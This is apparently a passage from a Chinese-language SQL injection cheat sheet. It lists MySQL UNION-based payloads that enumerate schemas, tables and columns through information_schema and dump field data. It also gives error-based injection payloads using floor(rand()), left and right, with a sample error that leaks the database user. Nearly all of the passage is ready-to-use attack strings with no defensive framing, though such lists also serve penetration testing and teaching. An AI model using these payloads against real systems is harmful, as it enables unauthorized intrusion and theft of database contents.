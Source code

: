 3、查询mysql数据库中有哪些数据库(注意使用limit限制查询的范围)

	and 1=2 union select 1,schema_name,3,4 from information_schema.schemata/*
	
	and 1=2 union select 1,group_concat(schema_name),3,4 from information_schema.schemata/*
	
	例如：select * from site_tb where 1=2 union select 1, 2, group_concat(schema_name) from information_schema.schemata;

4、查询某个数据库中有哪些表（数据库名可能需要16进制）

	and 1=2 union select 1,2,3,4,table_name,5 from information_schema.tables where table_schema=数据库名
	
	and 1=2 union select 1,2,3,4,group_concat(table_name),5 from information_schema.tables where table_schema=数据库名
	
	例如：select * from site_tb where 1=2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='sedb';

5、查询某个表中有哪些字段（表名、数据库名可能需要16进制）

	and 1=2 union select 1,2,3,4,column_name,5,6,7 from information_schema.columns where table_name=表名 and table_schema=数据库名 limit 1,1/*
	
	and 1=2 union select 1,2,3,4,group_concat(column_name),5,6,7 from information_schema.columns where table_name=表名 and table_schema=数据库名/*
	
	例如：select * from site_tb where 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='site_tb' and table_schema='sedb';

6、查询数据：

	and 1=2 union select 1,2,3,字段1,5,字段2,7,8 from 数据库.表/*
	
------

## 6 mysql报错注入

假设查询语句为：

	select name,password from test.user where id={参数}

{参数}：按照mysql语法，where后可以跟and、union，因此可以1 and (select *)以及1 union select *来触发报错注入

因此插入报错语句位置如下：

	select colum1,colum2 from table where id={0} and {1} union {2}

**方法1，使用floor/left/right：**

	select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a;
	select 1 from (select concat(user(),left(rand(),3)),count(*) from information_schema.tables group by 1)a;
	select 1 from (select concat(user(),right(rand(),3)),count(*) from information_schema.tables group by 1)a;

例如：

	select name,password from user where id=1 union select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a
	ERROR 1062 (23000): Duplicate entry 'root@localhost1' for key 'group_key'
